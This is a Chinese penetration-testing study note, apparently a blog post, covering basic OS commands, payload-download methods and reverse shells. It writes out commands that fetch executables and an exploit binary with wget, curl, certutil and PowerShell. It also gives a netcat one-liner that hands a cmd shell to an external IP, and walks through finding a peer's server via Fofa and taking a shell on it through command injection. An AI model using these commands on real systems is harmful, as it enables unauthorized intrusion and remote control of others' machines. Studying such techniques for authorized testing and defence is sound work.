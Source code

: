 ```yaml
---
layout: post
title: DAY01基础及反弹shell
author: PWN022
tags:
- Network security
date: 2023-12-23 19:23 +0800
toc:  true
---
```


# Network security

# DAY01操作系统&文件下载&反弹shell&防火墙绕过

知识点：

1、名词解释-渗透测试-漏洞&攻击&后门&代码&专业词

2、必备技能-操作系统-用途&命令&权限&用户&防火墙

3、必备技能-文件下载-缘由&场景&使用-提权&后渗透

4、必备技能-反弹命令-缘由&场景&使用-提权&后渗透

前后端，POC/EXP，Payload/Shellcode，后门/Webshell，木马/病毒，反弹，回显，跳板，黑白盒测试，暴力破解，社会工程学，撞库，ATT&CK等

> 参考：
>
> https://www.cnblogs.com/sunny11/p/13583083.html
>
> https://forum.ywhack.com/bountytips.php?tools
>
> https://blog.csdn.net/weixin_43303273/article/details/83029138

> 名词解释
>
> POC:全称"Proof of Concept",中文'概念验证',常指一段漏洞证明的代码。
>
> EXP: 全称"Exploit",中文"利用,指利用系统漏洞进行攻击的动作。
>
> Payload：中文"有效载荷",指成功exploit之后，真正在目标系统执行的代码或指令。
>
> Shellcode: 简单翻译"shell代码"，是Payload的一种，由于其建立正向/反向shell而得名。

## 基础案例1:操作系统-用途&命令&权限&用户&防火墙

1.个人计算机&服务器用机：

一般个人计算机大部分为：windows11、windows10、windows7.

服务器用机：windows server 2008、2012、2016

Linux: unbutu、centos

2.windows&Linux常见命令

```
Windows：dir //查看当前目录 ipconfig //查看IP地址

Linux：pwd//查看当前目录 ifconfig//查看IP地址
```

3.文件权限&服务权限&用户权限

```
windows:

whoami//查看当前用户的权限

system(系统最高权限）>administrator
```

```
Linux:

id//查看当前用户权限

system(系统最高权限) >root
```

4.自带防火墙出站&入站规则策略协议

windows:

**Windows Defender(默认自带的防火墙)**

出站的检测很宽容 对入站很严格

Linux:

**iptables(默认自带的防火墙)**

## 实用案例1：文件上传下载-解决无图形化&解决数据传输

Linux：

```
wget http://xxx.com/shell.exe //去下载文件

curl http://xxx.com/shell.exe -o shell.exe //下载下来 加-o 是重命名为 不加 默认直接下载下来

Python -m -SimpleHTTPServer 8080 //开放8080端口为http服务器

python3 -m http.server 8080

```

Windows：

```
PowerShell: powershell.exe -Command "Invoke-WebRequest -Uri http://127.0.0.1:8080/ms10-051.exe -OutFile exploit.exe"

CMD: certutil.exe -urlcache -split -f http://127.0.0.1:8080/ms10-051.exe exploit.exe

IPC$: copy \127.0.0.1\c$\ms10-051.exe C:\exploit.exe
```

## 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

测试Linux系统添加用户或修改密码命令交互回显问题

## 结合案例1：防火墙绕过-正向连接&反向连接&内网服务器

1、内网：**//netcat**

内网 -> pwnnn

pwnnn ！-> 内网

2、防火墙:

pwnnn <->aliyun //正常通讯

pwnnn防火墙 ->aliyun

aliyun !-> pwnnn防火墙

```
nc -e cmd 47.75.121.155 5577 //把当前的cmd权限移交到指定IP

nv -lvvp 5577 /去监听本地5577端口 反弹shell
```

只能内网的IP主机去反弹shell给外网有IP的服务器，外网IP没办法反弹shell给一台内网的主机.(这就需要流量转发）

正向连接:

攻击者作为客户端去连接目标主机服务器端口。相当于是攻击者主动去找服务器

反向连接:

目标主机作为客户端去主动访问攻击者的端口。相当于目标主机是客户端，攻击者是服务端。

## 综合案例2：Fofa拿下同行Pikachu服务器

文件&反弹shell:

主要利用点在于命令执行这个漏洞，通过命令执行，让目标去下载外网上我们的nc.exe 然后通过 nc -e cmd IP 8888 主动去连接我们的端口。获得目标主机的shell（对于出站的流量，防火墙一般都很宽松）

## day01实战:反弹shell

查找案例(受害主机)：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223172910135.png" alt="image-20231223172910135" style="zoom: 67%;" />

查询操作系统：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180514739.png" alt="image-20231223180441327" style="zoom: 80%;" />

相对系统的文件下载命令：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180646435.png" alt="image-20231223180646435" style="zoom: 67%;" />

通过输入框输入命令：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180746389.png" alt="image-20231223180746389" style="zoom: 80%;" />

反弹到端口：命令实际上是n.exe -e cmd xxx因为下载重命名时是n.exe

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180927545.png" alt="image-20231223180927545"  />

启动外网的端口监听：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223180327579.png" alt="image-20231223180327579" style="zoom: 80%;" />

拿到服务器：

<img src="C:\Users\10501\AppData\Roaming\Typora\typora-user-images\image-20231223181153931.png" alt="image-20231223181153931" style="zoom: 67%;" />
